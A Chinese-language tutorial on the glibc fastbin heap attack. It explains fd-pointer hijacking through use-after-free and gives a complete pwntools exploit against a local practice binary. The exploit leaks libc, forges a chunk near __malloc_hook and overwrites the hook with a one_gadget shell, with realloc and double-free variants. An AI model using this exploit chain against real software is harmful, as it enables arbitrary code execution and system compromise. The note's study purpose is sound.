 # fastbin attack

## 1.基本原理

劫持 fastbin 链表中正常 chunk 的 fd 指针，利用 UAF，把 fd 指针指向 target，此时 target 会链接在 fastbin 链表中，再次 malloc 内存时会从 fastbin 中将 target 取出来，此时就可以进行任意地址写了

注意：fd 指向的内存能申请出来的前提是该内存对应 size 处的值与该 fast bin 对应 size 相同

```c
#define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)

/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
```

```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```

```c
if (__builtin_expect(fastbin_index(chunksize(victim)) != idx, 0)) {
    errstr = "malloc(): memory corruption (fast)";
    errout:
    malloc_printerr(check_action, errstr, chunk2mem(victim), av);
    return NULL;
}
```

由于这里的 size 不考虑低 3 比特，并且 libc 或栈地址多数是 0x7f 开头，因此可以通过截取 0x7f 然后用 0x70 的 fastbin 将该内存申请出来。

例如修改 fd 指针指向 `__realloc_hook` 前合适的偏移, 通常是 `__malloc_hook` 往前 0x23 的偏移，两次 malloc(0x68) 申请出该地址的 fake chunk 实现对 `__realloc_hook` 和 `__malloc_hook` 的控制

通过修改 `__malloc_hook` 为 onegadget，使得下一次 malloc 的时候劫持到 hook 的 system 函数



## 2.利用思路

漏洞程序参考漏洞程序参考 unsortedbin leak 的测试程序

```c
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(3, 0x100)
add_chunk(4, 0x100)

# leak libc
delete_chunk(3)
add_chunk(3, 0x100)
show_chunk(3)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)

add_chunk(0, 0x68)
delete_chunk(0)
edit_chunk(0, p64(libc.sym['__malloc_hook'] - 0x23))
add_chunk(0, 0x68)
add_chunk(0, 0x68)

# ➜  fastbin one_gadget /home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6
# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv
#
# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv
#
# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv

one_gadget = libc.address + [0x4527a, 0xf03a4, 0xf1247][2]
payload = b""
payload += 0x13 * b'a'
payload += p64(one_gadget)
edit_chunk(0, payload)

add_chunk(0, 0x68)
# gdb.attach(p)
# pause()
it()
```

注意：

* one_gadget 并不是所有的都能用，存在一定的限制条件，需要逐个尝试一下
* 由于 one_gadget 可能因栈结构不满足条件而失效，可以通过修改 `__malloc_hook` 为 `realloc+偏移`，修改 `__realloc_hook` 为 one_gadget 改变栈结构来获取 shell 

  * 这样 add_chunk 时会调用 `__malloc_hook`, 从而执行 `realloc`, 而此时堆栈环境会发生变化
  * `reallloc` 的 hook 为 one_gadget, 从而触发执行，可能满足条件执行成功
  * ![image-20241223192430891](./assets/3.fastbin_attack/image-20241223192430891.png)
* 除了 realloc + 偏移外，还可以通过触发 malloc 报错(例如 double free)执行 malloc 来改变栈结构

  * ```c
    one_gadget = libc.address + [0x4527a, 0xf03a4, 0xf1247][2]
    payload = b""
    payload += 0x13 * b'a'
    payload += p64(one_gadget)
    
    edit_chunk(0, payload)
    
    delete_chunk(3)
    delete_chunk(3)
    it()
    ```

  * double free 时，发生错误，此时栈空间会发生较大的变化，跟踪调用堆栈（gdb 断在 malloc 的位置），会发现调用了 `__libc_malloc`, 接下来的原理就和上面一样了

  * ![image-20241223192606383](./assets/3.fastbin_attack/image-20241223192606383.png)